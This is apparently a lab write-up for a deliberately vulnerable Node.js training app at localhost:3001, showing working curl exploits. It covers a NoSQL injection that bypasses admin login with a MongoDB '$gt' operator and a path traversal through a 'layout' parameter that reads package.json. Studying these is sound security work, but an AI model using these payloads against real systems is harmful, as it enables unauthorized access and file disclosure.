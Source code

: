 #### Normal Login Flow
```bash
# Failed login attempt
curl -X POST http://localhost:3001/login \
  -H 'Content-Type: application/json' \
  -d '{"username": "admin@snyk.io", "password": "WrongPassword"}'

# Response: 401 Unauthorized
```

#### Exploitation
```bash
# NoSQL Injection - Authentication bypass using MongoDB operators
curl -X POST http://localhost:3001/login \
  -H 'Content-Type: application/json' \
  -d '{"username": "admin@snyk.io", "password": {"$gt": ""}}'

# Response: 302 Redirect to /admin (SUCCESS)
```

**Attack Vector:**
- The `{"$gt": ""}` operator tells MongoDB to match any password > empty string
- Bypasses authentication without knowing credentials
- Exploits unsanitized JSON objects passed to database queries

**Impact:**
- Complete authentication bypass
- Unauthorized admin access
- Session hijacking potential

**Location:** `routes/index.js` - loginHandler function

---

### 2. Directory Traversal / Path Injection

**Vulnerability:** Unvalidated template layout parameter
**CVSS Score:** 7.5 (High)
**CWE:** CWE-22 (Path Traversal)

#### Step 1: Authenticate
```bash
# Login and save session cookie
curl -X POST http://localhost:3001/login \
  -c /tmp/cookies.txt \
  -H 'Content-Type: application/json' \
  -d '{"username": "admin@snyk.io", "password": {"$gt": ""}}'
```

#### Step 2: Exploit Path Traversal
```bash
# Read arbitrary files using layout parameter
curl -X POST http://localhost:3001/account_details \
  -b /tmp/cookies.txt \
  -H 'Content-Type: application/json' \
  -d '{
    "email": "admin@snyk.io",
    "firstname": "admin",
    "lastname": "admin",
    "country": "IL",
    "phone": "+972551234123",
    "layout": "./../package.json"
  }'

# Response: Contents of package.json rendered in page
```
